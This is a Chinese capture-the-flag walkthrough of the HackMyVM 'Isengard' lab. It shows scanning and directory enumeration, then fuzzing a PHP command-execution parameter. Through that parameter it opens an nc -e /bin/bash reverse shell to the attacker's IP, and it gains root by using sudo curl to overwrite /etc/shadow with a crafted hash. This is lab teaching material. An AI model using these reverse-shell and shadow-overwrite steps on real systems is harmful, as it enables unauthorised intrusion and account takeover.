




# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 03:50 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0015s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00013s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00019s latency).
MAC Address: 08:00:27:00:77:ED (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.076s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 3.14 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 03:51 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00099s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:00:77:ED (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p80 192.168.21.5     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 03:51 EDT
Nmap scan report for 192.168.21.5 (192.168.21.5)
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51 ((Debian))
MAC Address: 08:00:27:00:77:ED (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.70 seconds
```

# 漏洞利用

看一下80端口

```markup
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.5/   
 <!DOCTYPE html>
<html>
<head>
<title>Gray wizard</title>
<link href="main.css" rel="stylesheet" type="text/css">
</head>
<body>

<p class="p1">It is the small things, everyday deeds of ordinary folk that keeps the darkness at bay. Simple acts of love and kidness.</p>
<p class="p">The world is not in your books and maps... It is out there!</p><br><br>


</body>
</html>
```

目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.5 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x html,php,txt,jpg,png,git,zip 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              jpg,png,git,zip,html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 426]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
```

目录扫描什么都没扫到，回去看看是不是漏掉了什么



/main.css

```markup
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.5/main.css
@import url('https://fonts.googleapis.com/css?family=VT323&subset=latin-ext');
/* To do:
   Add tengwar annatar font from fontmeme*/

* {
  margin: 0;
  padding: 0;
}
body {
  padding: 2.7rem;
  background-color: #000;
  color: lime;
  font-family: 'VT323', monospace;

}

p {
  font-size: 1.5rem;
  text-shadow: 0px 0px 2px GreenYellow;
  line-height: 1.7rem;
}
.p:after {
  content: "";
  display: inline-block;
  width: 0.7rem;
  height: 1.1rem;
  background-color: lime;
  box-shadow: 0px 0px 1px GreenYellow;
  animation-name: dot;
  animation-duration: 0.9s;
  animation-iteration-count: infinite;
}
@keyframes dot {
  from {
    background-color: lime;
    box-shadow: 0px 0px 2px GreenYellow;
  }
  to {
    background-color: #000500;
    box-shadow: 0px 0px 2px #000500;
  }
}
/* btw: in the robots.txt i have to put the url /y0ush4lln0tp4ss */
```

重新扫一下

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.5/y0ush4lln0tp4ss -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt,jpg,png,git,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.5/y0ush4lln0tp4ss
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,jpg,png,git,zip,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 250]
/.php                 (Status: 403) [Size: 277]
/2.jpg                (Status: 200) [Size: 63526]
/3.jpg                (Status: 200) [Size: 136974]
/east                 (Status: 301) [Size: 327] [--> http://192.168.21.5/y0ush4lln0tp4ss/east/]                                 
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

/east



访问一下/ring.zip会自动下载



没看出来有什么


再次目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.5/y0ush4lln0tp4ss/east -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt,jpg,png,git,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.5/y0ush4lln0tp4ss/east
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,jpg,png,git,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 285]
/ring.zip             (Status: 200) [Size: 6042]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/mellon.php           (Status: 200) [Size: 0]
/logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.html (Status: 403) [Size: 277]
Progress: 9482032 / 9482040 (100.00%)
===============================================================
Finished
===============================================================
```

/mellon.php什么都没有，模糊测试

```markup
┌──(kali㉿kali)-[~]
└─$ ffuf -u "http://192.168.21.5/y0ush4lln0tp4ss/east/mellon.php?FUZZ=whoami" -w /usr/share/wordlists/rockyou.txt -fs 0 -mc 200 -c -s 2>/dev/null
frodo
```

利用他反弹一个shell

```markup
http://192.168.21.5/y0ush4lln0tp4ss/east/mellon.php?frodo=nc%20192.168.21.11%204444%20-e%20/bin/bash;
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444         
listening on [any] 4444 ...
connect to [192.168.21.11] from (UNKNOWN) [192.168.21.5] 51414
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 提权

看一下有没有可以利用的

```markup
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: 

sudo: 3 incorrect password attempts
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ find / -perm -u=s -type f 2>/dev/null
<n0tp4ss/east$ find / -perm -u=s -type f 2>/dev/null  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ /usr/sbin/getcap -r / 2>/dev/null
<h4lln0tp4ss/east$ /usr/sbin/getcap -r / 2>/dev/null  
/usr/bin/ping cap_net_raw=ep
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ cat /etc/passwd | grep /bin/bash
<sh4lln0tp4ss/east$ cat /etc/passwd | grep /bin/bash  
root:x:0:0:root:/root:/bin/bash
sauron:x:1000:1000:sauron,,,:/home/sauron:/bin/bash
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ ls -la
ls -la
total 84
drwxr-xr-x 2 root root  4096 Nov 11  2021 .
drwxr-xr-x 3 root root  4096 Nov 11  2021 ..
-rw-r--r-- 1 root root   285 Nov 11  2021 index.html
-rw-r--r-- 1 root root    47 Nov  2  2021 main.css
-rwxrwxrwx 1 root root    33 Nov 11  2021 mellon.php
-rw-r--r-- 1 root root    54 Nov 11  2021 oooREADMEooo
-rw-r--r-- 1 root root  6042 Nov 11  2021 ring.zip
-rw-r--r-- 1 root root 51658 Nov  2  2021 speakfriendandenter.jpg
```

有一个提示

```markup
www-data@isengard:/var/www/html/y0ush4lln0tp4ss/east$ cat oooREADMEooo
cat oooREADMEooo
it is not easy to find the unique ring
keep searching
```

之前我们找到了一个ring.zip，但没什么用，在寻找一下

```markup
www-data@isengard:/var/www$ find / -name ring.zip 2>/dev/null
find / -name ring.zip 2>/dev/null
/opt/.nothingtoseehere/.donotcontinue/.stop/.heWillKnowYouHaveIt/.willNotStop/.ok_butDestroyIt/ring.zip
/var/www/html/y0ush4lln0tp4ss/east/ring.zip
```

提权

```markup
┌──(kali㉿kali)-[~]
└─$ unzip ring.zip          
Archive:  ring.zip
 extracting: ring.txt                                                                    
┌──(kali㉿kali)-[~]
└─$ cat ring.txt 
ZVZoTFRYYzFkM0JUUVhKTU1rTk1XQW89Cg==
www-data@isengard:/tmp$ su sauron
su sauron
Password: yXKMw5wpSArL2CLX

sauron@isengard:/tmp$ 
```

user.txt

```markup
sauron@isengard:~$ cat user.txt
cat user.txt
HMV{Y0uc4nN0tp4sS}
```

看一下都有什么可以利用的

```markup
sauron@isengard:~$ sudo -l
sudo -l
[sudo] password for sauron: yXKMw5wpSArL2CLX

Matching Defaults entries for sauron on isengard:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sauron may run the following commands on isengard:
    (ALL) /usr/bin/curl
sauron@isengard:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
sauron@isengard:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
```

提权

```markup
┌──(kali㉿kali)-[~]
└─$ mkpasswd -m sha-512 123456
$6$XxXiO7thR247oLnC$KO.W208NnLRTAnkiStyTjWSEAjpXAxt9Ydwq64MCR1Rj5DJ3v4ValGJ33FntforESTXZaTaw9B7.CDxJxsGOh/

写一个文件：root:$6$XxXiO7thR247oLnC$KO.W208NnLRTAnkiStyTjWSEAjpXAxt9Ydwq64MCR1Rj5DJ3v4ValGJ33FntforESTXZaTaw9B7.CDxJxsGOh/:20057:0:99999:7:::

sauron@isengard:~$ sudo /usr/bin/curl http://192.168.21.11/shadow_entry -o /etc/shadow
<rl http://192.168.21.11/shadow_entry -o /etc/shadow
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- 100   131  100   131    0     0  21833      0 --:--:-- --:--:-- --:--:-- 21833
sauron@isengard:~$ su
su
Password: 123456

root@isengard:/home/sauron# id
id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
root@isengard:~# cat root.txt
cat root.txt
HMV{Y0uD3stR0y3dTh3r1nG}
```